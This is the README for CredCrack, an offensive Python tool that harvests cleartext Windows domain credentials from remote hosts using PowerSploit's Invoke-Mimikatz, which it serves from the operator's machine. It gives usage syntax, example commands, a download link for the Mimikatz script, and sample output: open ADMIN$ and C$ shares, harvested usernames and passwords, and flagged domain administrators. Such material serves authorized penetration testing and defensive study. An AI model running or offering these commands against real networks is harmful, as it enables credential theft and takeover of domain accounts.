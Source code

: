 # CredCrack

##Introduction
-----

CredCrack is a fast and stealthy credential harvester. It exfiltrates credentials recusively in memory and in the clear. Upon completion, CredCrack will parse and output the credentials while identifying any domain administrators obtained. CredCrack also comes with the ability to list and enumerate share access and yes, it is threaded!

CredCrack has been tested and runs with the tools found natively in Kali Linux. CredCrack solely relies on having PowerSploit's "Invoke-Mimikatz.ps1" under the /var/www directory. [Download Invoke-Mimikatz Here](https://raw.githubusercontent.com/mattifestation/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1)

## Help
-----
```
usage: credcrack.py [-h] -d DOMAIN -u USER [-f FILE] [-r RHOST] [-es]
                    [-l LHOST] [-t THREADS]

CredCrack - A stealthy credential harvester by Jonathan Broche (@g0jhonny)

optional arguments:
  -h, --help            show this help message and exit
  -f FILE, --file FILE  File containing IPs to harvest creds from. One IP per
                        line.
  -r RHOST, --rhost RHOST
                        Remote host IP to harvest creds from.
  -es, --enumshares     Examine share access on the remote IP(s)
  -l LHOST, --lhost LHOST
                        Local host IP to launch scans from.
  -t THREADS, --threads THREADS
                        Number of threads (default: 10)

Required:
  -d DOMAIN, --domain DOMAIN
                        Domain or Workstation
  -u USER, --user USER  Domain username

Examples: 

./credcrack.py -d acme -u bob -f hosts -es
./credcrack.py -d acme -u bob -f hosts -l 192.168.1.102 -t 20
```

## Examples
-----

###Enumerating Share Access

```
./credcrack.py -r 192.168.1.100 -d acme -u bob --es
Password:
 ---------------------------------------------------------------------
  CredCrack v1.0 by Jonathan Broche (@g0jhonny)
 ---------------------------------------------------------------------
 
[*] Validating 192.168.1.102
[*] Validating 192.168.1.103
[*] Validating 192.168.1.100

 -----------------------------------------------------------------
 192.168.1.102 - Windows 7 Professional 7601 Service Pack 1 
 -----------------------------------------------------------------
 
 OPEN      \\192.168.1.102\ADMIN$ 
 OPEN      \\192.168.1.102\C$ 

 -----------------------------------------------------------------
 192.168.1.103 - Windows Vista (TM) Ultimate 6002 Service Pack 2 
 -----------------------------------------------------------------
 
 OPEN      \\192.168.1.103\ADMIN$ 
 OPEN      \\192.168.1.103\C$ 
 CLOSED    \\192.168.1.103\F$ 

 -----------------------------------------------------------------
 192.168.1.100 - Windows Server 2008 R2 Enterprise 7601 Service Pack 1 
 -----------------------------------------------------------------
 
 CLOSED    \\192.168.1.100\ADMIN$ 
 CLOSED    \\192.168.1.100\C$ 
 OPEN      \\192.168.1.100\NETLOGON 
 OPEN      \\192.168.1.100\SYSVOL 

[*] Done! Completed in 0.8s
```

###Harvesting credentials
-----

```
./credcrack.py -f hosts -d acme -u bob -l 192.168.1.100
Password:

 ---------------------------------------------------------------------
  CredCrack v1.0 by Jonathan Broche (@g0jhonny)
 ---------------------------------------------------------------------
 
[*] Setting up the stage
[*] Validating 192.168.1.102
[*] Validating 192.168.1.103
[*] Querying domain admin group from 192.168.1.102
[*] Harvesting credentials from 192.168.1.102
[*] Harvesting credentials from 192.168.1.103

                  The loot has arrived...
                         __________
                        /\____;;___\    
                       | /         /    
                       `. ())oo() .      
                        |\(%()*^^()^\       
                       %| |-%-------|       
                      % \ | %  ))   |       
                      %  \|%________|       

                
[*] Host: 192.168.1.102 Domain: ACME User: jsmith Password: Good0ljm1th
[*] Host: 192.168.1.103 Domain: ACME User: daguy Password: P@ssw0rd1!

     1 domain administrators found and highlighted in yellow above!

[*] Cleaning up
[*] Done! Loot may be found under /root/CCloot folder
[*] Completed in 11.3s
```

####Contact
Contact me at [@g0jhonny](https://twitter.com/g0jhonny) with any questions or features you'd like to see in the next update. For bugs submit an [issue](https://github.com/gojhonny/CredCrack/issues/new)!

####Credits
Special thanks to [@brav0hax](https://twitter.com/brav0hax) and [@altonjx](https://twitter.com/altonjx) for helping me test the script and [@mattifestation](https://twitter.com/mattifestation) for the awesome PowerSploit framework.
